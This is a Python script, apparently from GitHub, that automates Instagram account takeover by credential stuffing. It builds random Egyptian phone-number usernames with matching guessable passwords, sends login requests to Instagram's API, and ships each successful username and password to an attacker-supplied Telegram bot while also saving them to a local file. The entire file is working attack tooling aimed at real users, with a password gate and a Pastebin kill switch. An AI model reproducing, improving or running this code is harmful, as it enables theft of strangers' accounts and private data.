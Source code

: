 import os
import pyfiglet, requests, os, sys, time
import requests, os, random, json, threading, secrets, uuid, pyfiglet, threading, sys, time
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from random import randint
from user_agent import generate_user_agent
import sys as n
import time as mm
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
from user_agent import generate_user_agent
import pyfiglet
import os
import random
import uuid
import requests
import string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests
import os
import random
import json
import threading
import secrets,uuid
from colorama import Fore, Style
from time import sleep

    import random
def close():
    input('- Press Enter To Exit /')
    sys.exit()
try:
    import uuid
except:
    os.system ("pip install uuid")
try:
    from random import *
except:
    os.systeam("pip install random ")
try:
     import string
except:
    os.system("pip install string")
try:
    import requests 
except:
    os.system ("pip install requests ")
try:
    from user_agent import generate_user_agent
except:
    os.system("pip install user_agent ")
try:
    from datetime import datetime
except:
    os.system("pip install datetime ")
try:
    import time
except:
    os.system("pip install time")
os.system("clear")
try:
    import pyfiglet
except:
    os.system("pip install pyfiglet")
os.system("clear")
import pyfiglet
import os
from time import sleep
import webbrowser
import os, sys, requests

Alosh ='tuiks'

P = '\033[2;35m'
J = '\034[1;31m'
I = '\033[2;36m'
H = '\033[2;35m'
A = '\033[2;36m'
E = '\033[1;31m'
Z = '\033[2;31m'
E = '\033[1;31m'
G = '\033[1;32m'
S = '\033[1;33m'

import user_agent, random, uuid, requests, string
from user_agent import generate_user_agent
from datetime import datetime
from random import *
from time import sleep
import requests, os, random, json, threading, secrets, uuid
from colorama import Fore, Style
from time import sleep
from datetime import datetime
from secrets import token_hex
from uuid import uuid4
import pyfiglet, webbrowser
sleep(0.1)
Z = '\033[1;31m' #Ø§Ø­Ù…Ø±
X = '\033[1;33m' #Ø§ØµÙØ±
Z1 = '\033[2;31m' #Ø§Ø­Ù…Ø± Ø«Ø§Ù†ÙŠ
F = '\033[2;32m' #Ø§Ø®Ø¶Ø±
A = '\033[2;39m' #Ø§Ø²Ø±Ù‚
C = '\033[2;35m' #ÙˆØ±Ø¯ÙŠ
B = '\033[2;36m'#Ø³Ù…Ø§Ø¦ÙŠ
pess = input(F + ' Enter Your Password: ')
webbrowser.open('https://t.me/TuIks1/1516')
if pess == Alosh:
    print(B+ ' Success Password ')
    time.sleep(2)
    os.system('clear')
else:
    exit(Z + ' Worng Password ')
alosh = """
\033[1;31m          _    _           _     
\033[1;33m         / \  | | ___  ___| |__ 
\033[2;36m        / _ \ | |/ _ \/ __| '_ \ 
\033[2;32m       / ___ \| | (_) \__ \ | | |
\033[1;31m      /_/   \_\_|\___/|___/_| |_| 
\033[1;33m----------------------------â€-------------------------
\033[1;31m[\033[2;32m*\033[1;31m]\033[2;32mTelegram\033[1;33m:\033[2;36m@tuiks1
\033[1;31m[\033[2;32m*\033[1;31m]\033[2;32mBY\033[1;33m:\033[1;36m@tuikss
\033[1;33m----------------------------â€-------------------------
"""
aa = 0
zz = 0
ib = 0

print (alosh)
print (''+Z+'['+F+'*'+Z+']'+X+'  Ø§Ø¯Ø®Ù„ ØªÙˆÙƒÙ† Ø§Ù„ØªÙŠÙ„ÙƒØ±Ø§Ù… ')
tok =  input(F+'     =>  '+B)
os.system('clear')
webbrowser.open('https://t.me/TuIks1')
print (alosh)
print (''+Z+'['+F+'*'+Z+']'+X+'Ø§Ø¯Ø®Ù„ Ø§ÙŠØ¯ÙŠ Ø­Ø³Ø§Ø¨Ùƒ ') 
ID =  input(F+'     =>  '+B)
os.system('clear')
print (alosh)
w = 'https://pastebin.com/R0msdDfe'
import time
t = time.localtime()
current_time = time.strftime("%H:%M:%S", t)
sleep(2)
rss = requests.get(w).text
if 'TTH' in rss:
    sleep(0.1)
    r = requests.Session()
    user = '0123456789'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+20122' + us
        password = '0122' + us
        
        url = 'https://i.instagram.com/api/v1/accounts/login/'          
        headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*', 
         'Cookie':'missing', 
         'Accept-Encoding':'gzip, deflate', 
         'Accept-Language':'en-US', 
         'X-IG-Capabilities':'3brTvw==', 
         'X-IG-Connection-Type':'WIFI', 
         'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
         'Host':'i.instagram.com'}
        uid = str(uuid4())
        data = {'uuid':uid,  'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req_login = r.post(url, headers=headers, data=data, allow_redirects=True)
        if 'logged_in_user' in req_login.text:
            zz += 1
            print(G + 'username ==> : ' + username + ': password ==> : ' + password)
            tlg =(f'''https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=âœ….ð’‰ð’Šð’• [{zz}]
= = = = = = = = = = = = =
.ðŸ‘®â€â™€.ð’‘ð’‚ð’”ð’” [{password}]
.ðŸ“§.ð’†ð’Žð’‚ð’Šð’ [{username}]
.ðŸ•¡.ð’•ð’Šð’Žð’† [{current_time}]
= = = = = = = = = = = = =
ð’ƒð’š:-  @tuiks1 :- @tuikss
''')
            i = requests.post(tlg)
            with open('tuiksss.txt', 'a') as (tuiks1):
                tuiks1.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username,password))
        elif '"message":"challenge_required","challenge"' in req_login.text:
            ib+=1
            print (S+'username S ==> : '+username+': password ==> : '+password)
        else:
            print (E+'username ==> : '+username+': password ==> : '+password)
            aa+=1
else:
            print(Z + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
